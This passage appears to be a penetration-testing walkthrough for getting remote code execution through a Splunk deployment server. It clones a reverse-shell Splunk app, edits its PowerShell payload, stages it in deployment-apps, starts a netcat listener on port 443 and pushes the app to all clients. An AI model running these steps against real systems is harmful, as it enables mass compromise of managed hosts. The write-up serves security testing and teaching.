     git clone https://github.com/vartai-security/reverse_shell_splunk
      
![](../assets/img/splunk-rce/2019-10-03-00-21-49.png)

    vim reverse_shell_splunk/reverse_shell_splunk/bin/run.ps1

![](../assets/img/splunk-rce/2019-10-03-00-19-55.png)

We then copy the entire folder over to the deployment-apps directory.

    cd reverse_shell_splunk
    cp -r reverse_shell_splunk/ /opt/splunk/etc/deployment-apps/

![](../assets/img/splunk-rce/2019-10-03-00-24-28.png)

## Listener

We are nearly there, so we set up a listener on the attacker host

    nc -lvp 443

![](../assets/img/splunk-rce/2019-10-03-00-00-32.png)

## Preparing the Server Class

We now use the web interface to deploy the package we configured earlier to our target. Once you click save in the final step here, the App is deployed and will be installed on all specified clients. That means your payload will be firing!
